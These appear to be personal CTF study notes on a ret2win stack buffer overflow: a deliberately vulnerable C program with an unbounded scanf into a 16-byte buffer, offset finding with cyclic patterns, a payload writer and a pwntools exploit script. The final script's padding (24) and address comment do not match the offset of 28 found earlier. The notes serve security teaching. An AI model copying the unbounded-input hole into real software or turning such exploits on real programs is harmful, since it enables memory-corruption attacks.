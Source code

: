 
``` source 
#include <stdio.h>

void hacked()
{
    printf("This function is TOP SECRET! How did you get in here?! :O\n");
}

void register_name()
{
    char buffer[16];

    printf("Name:\n");
    scanf("%s", buffer);
    printf("Hi there, %s\n", buffer);
}

int main()
{
    register_name();

    return 0;
}
```

- We will override the return address of register_name(), to the hacked function.
- We can do the because there is nothing stopping us from going beyond 16 byte in the buffer. 
- We find the address of hacker()
``` info_functions

0x08049000  _init
0x08049030  printf@plt
0x08049040  puts@plt
0x08049050  __libc_start_main@plt
0x08049060  __isoc99_scanf@plt
0x08049070  _start
0x080490b0  _dl_relocate_static_pie
0x080490c0  __x86.get_pc_thunk.bx
0x080490d0  deregister_tm_clones
0x08049110  register_tm_clones
0x08049150  __do_global_dtors_aux
0x08049180  frame_dummy
0x08049182  hacked
0x080491ad  register_name
0x08049203  main
0x0804921f  __x86.get_pc_thunk.ax
0x08049230  __libc_csu_init
0x08049290  __libc_csu_fini
0x08049291  __x86.get_pc_thunk.bp
0x08049298  _fini
```

- Since the program is compiled without pie, its the same address each time. 
- hacker memory address: `0x08049182`
- We now need to find how many bytes we should overwrite in the buffer.
```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

This we will feed as input when the program promps us:
```


![[Pasted image 20250124231936.png]]

- Observe the EIP (instruction pointer), the characters that made it there is 'haaa', so we should find this in the payload and change them to the address of hacker. 

finding its offsett:
```
pwndbg> cyclic -l haaa
Finding cyclic pattern of 4 bytes: b'haaa' (hex: 0x68616161)
Found at offset 28
```

So we make a payload with 28 wildcard characters + hacked() function: 
```
payload = 'A'*28 + '\x82\x91\x04\x08'

file = open("payload",'w')
file.write(payload)
print(payload)
```
- NOTICE: Format of the address. 


```
┌──(kali㉿windowsaids)-[~/CTF/Cryptocat/pwn/binary_exploitation_101/03-return_to_win]
└─$ ./ret2win < payload
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA��
This function is TOP SECRET! How did you get in here?! :O
Segmentation fault (core dumped)
```

- Observe that the program craches afterwards, if we dont want this we have to make the hackerd functions return to another place. 
- return of register_name: `0x08049202`

We also have use pwn tools - here is a basic script:
```
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './ret2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# How many bytes to the instruction pointer (EIP)?
padding = 24

payload = flat(
    b'A' * 24,
    elf.functions.hacked  # 0x401142
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Receive the flag
io.interactive()
```